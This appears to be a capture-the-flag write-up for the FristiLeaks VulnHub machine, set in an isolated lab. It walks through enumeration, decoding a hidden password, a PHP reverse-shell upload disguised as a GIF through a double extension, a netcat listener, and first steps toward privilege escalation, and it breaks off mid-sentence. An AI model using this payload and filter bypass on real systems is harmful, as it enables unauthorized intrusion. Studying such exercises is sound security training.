


# FRISTI_LEAKS

**Difficulty**: Intermediate

**Link**: www.vulnhub.com/entry/fristileaks-13,133/

**Description**: Simple Web Recon, Image spoofing, and lots of Linux Privilege escalation

**Goal**: Gain root access and read the flag at /root/flag.txt

## Setup:

I will be detailing the setup for this challenge and how to safely configure a pentesting lab environment using VMware player.  It is important to keep these images away from the internet because they are vulnerable and to mitigate that risk its best to keep them on their own private network.

### Importing

Importing any of these vulnerable VMs into VMware is very easy.

> File -> Open
>
> Select the VMX, OVF, or OVA file
>
> Import into VMware

Our pentesting lab consists of our pentesting machine (ParrotOS) and our pentesting target, we will configure the virtual network to consist only of these two machines, with no internet connectivity. 

### Virtual Network

By default VMware has a host only private network assigned to the custom VMnet1.  Our setup will have the host on its own Host-Only network, and then the vulnerable VM attached to VMnet1 and connected to our host.

> ParrotOS: VM -> Settings -> Network Adapter -> Host Only
>
> VulnerableVM: VM -> Settings -> Network Adapter -> Custom -> VMnet1 (Host-Only)

## writeup:

This writeup will provide a very detailed step-by-step solution to this challenge from start to finish.  There will be no prior knowledge assumed, and every step will be explained to help anyone reading this begin to formulate their own approach to pentesting.  This writeup will also go over the steps taken to achieve root, even the steps that ended up incorrect and went nowhere.

### Enumeration:

The first step we need to accomplish is enumerating the environment and gaining as much information as we can about the target.  To do this we first need to know what network our pentesting box is on.

```bash
ifconfig
```

ifconfig will give us the information about all of our network interfaces that we have initialized. 


We know that our box is at `192.168.80.129` and the default subnet range for VMware VMnet1 is `192.168.80.0/24`.  Using this we can now locate the address of the vulnerable VM.

```bash a
nmap -sn 192.168.80.0/24
```

This NMAP command will perform a ping scan (host-discovery) for every address located in the range of `192.168.80.0/24` or in regular notation `192.168.80.0 - 192.168.80.255`



We can see that there were 3 hosts discovered on the network: Our default gateway at `192.168.80.1`, our pentesting box at `192.168.80.129`, and an unknown host at `192.168.80.133` which is our vulnerable VM.  With the address of our target discovered, we can enumerate further and find information about the running services and open ports of the target machine.

```bash nmap
nmap -sS -sV -p- -T4 192.168.80.133
```

> sS  = SYN Scan
>
> sV  = Service Version
>
> -p- = All ports (1-65535)
>
> T4  = Quick Scan
>
> 192.168.80.133 is our target


This scan reveals little information, the only service revealed from the service scan is that there is an apache webservice running on port 80.

### Webservice Exploitation

The landing page for the web service is a simple webpage giving credit to the creators of the challenge, and displaying an image about Fristi.


There is no information to be gained from this page, and there is no other leads to go on, so we will start analyzing the webservice from square one.  The first two things I do when approaching a webservice is to begin a Dirbuster, and Nikto scan.

#### Dirbuster

Dirbuster is an important tool to run during the initial discovery of a web service.  Dirbuster will validate the existence of filepaths and directories located on the web server using brute force.  Because it uses brute force, it is important to make sure that the target does not have any sort of IPS/IDS because we will be making a lot of requests to the server.  We start dirbuster by simply passing the target webservice as a parameter, and clicking run.


#### Nikto

Nikto is a web vulnerability scanner designed to point out obvious vulnerabilities on the website before any manual digging has to be done.  It is an automated script and can be run in the background while other tasks are completed.

```bash
nikto -h 192.168.80.133
```


After running these two scans, we can see there are some directories that we can navigate to, in order to get some more information: `/cola/`, `/sisi/`,`/beer/`.  Navigating to these images reveals the same result for each of them.  Further digging into each of the images reveals no difference, each of the files is named `343770.jpeg` and contain the exact same information.


After a lot of random poking around the website with no luck, playing on the name of the challenge and all of the aptly named directories, a peak at `/fristi/` reveals some more interesting information.

* **Note:** *Dirbuster/Nikto work off of brute forcing from wordlists, uncommon words specific to challenges e.g. Fristi will usually not be discovered via these tools*


This looks like a simple login page, but before we do any sort of manual testing into the website, it is always important to further enumerate in the background.  We will spool up Dirbuster again but give it the knowledge that a directory named `fristi` exists, and then it can brute force file names from that starting point.


And immediately after restarting Dirbuster with the new starting point we begin to enumerate more details about the web service: `index.php`, `upload.php`, `do_upload.php`, `checklogin.php` however all of these pages redirect us to the `main_login.php` page.  After a couple of basic XSS and SQL injection attempts, I wasn't able to get any sort of error redirect, or script injection.  So either the service is suppressing the `Error: 5**` HTTP messages, or there is no injection available (that was tried).  So taking a look at the source code for page reveals some interesting information:



We see a message left by the developer that all of the images are encoded in base64 (which we can tell by the `==` appending each string), and that the author of this webpage, or at least some of it is `eezeepz`.  Scrolling down further reveals a commented out base64 string that isn't enclosed in `` tags.


Copying this base64 string and removing the newline endings via Vim's `s` utility 

```vim
%s/\n//g
```

and then running it through the Linux built in base64 utility reveals junk

```bash
base64 -d infile
```


but what we can see is that the File Signature at the top is the default PNG file signature, which makes sense because all of the images on the site are encoded in base64.  So changing the file extension to end in PNG and then opening the file reveals the following image:

```bash
mv tmp tmp.png
```


Now this could be a lot of things, a filename located on the service, a directory, or a password, and the first thing that came to mind was a User/Pass combination of this text, and the user `eezeepz`. 


* **Note** *the beautiful plaintext password field*

sending off the request with the new login details reveals a new page `login_success.php` and 

a redirect to the `upload.php` page previously denied access to.


The site presents us with an upload button, and a browse button and prompts an image upload.  My first reaction is to upload a PHP file with code in it to spawn a reverse shell.  Create a new file, add this code in, and upload it to the server and hope.

```bash
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.80.129/1234'");?>
```

I didn't expect it to be that easy and it wasn't, we are greeted with an error page indicating that the only allowed file extensions are `png`, `jpg`, and `gif`.  This however is a very easy workaround, we can just prepend the GIF File Signature to the beginning of our shellcode, and then name it GIF and be on our way.


That was an easy bypass, now all that needs to be done is to include the file on the server, and spawn a reverse shell.  In order to receive the connection from the server we need to begin listening on the specified  IP and port that is in our shellcode. 

```bash
nc -lvnp 1234
l: listen
v: verbose
n: numeric-ip only
p: specified port
```

The service even makes it easier for us to invoke our shellcode, by telling us the directory where the uploaded image is stored `/uploads`.  Navigating to the specified 'image' to load it onto the webpage 

> 192.138.80.133/fristi/uploads/prevshell.gif

Just reveals an error displaying

> The image "url" cannot be displayed because it contains errors

Which means that the service is trying to include the file as a GIF file instead of what we want it to be included as (PHP).  The solution to this sounds like it could be hard, because we need the server to interpret the files as a PHP file, and we need to bypass the unknown image checks by having a GIF file.  In reality its quite an easy and stupid solution..

```bash
mv shell.gif shell.php.gif
```

The server will utilize the PHP file extension when including the file on the page, and the image checking will see the GIF in the extension and give us the ok.  After uploading our newly named file, while still listening for incoming connections on our machine we can navigate to the URL:

>192.138.80.133/fristi/uploads/prevshell.php.gif


And we've popped a low privilege shell on target computer, without job control and no TTY spawned.  A quick trick to actually spawn a job control shell via a reverse shell is:

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```


After gaining a real shell, we can run some more commands to gain some information about who we are and what the system is running.

```
whoami; id; uname -ar
```

We are a user named apache on a generic 2.6.32 Linux host, we can get some more information on what services are running on the system now that we're on the inside.

```
netstat -ano
cat /etc/passwd
```


As we can see, there are multiple extra users on this system that we might be able to escalate to root through, we can try one of the users that we already know their information `eezeepz`.  Navigating to `/home/eezeepz` there are a lot of files that look like symlinks to regular system binaries that we can run and a file named notes.txt.


Well this seems really simple and straightforward, we can do exactly as the note says and create a file
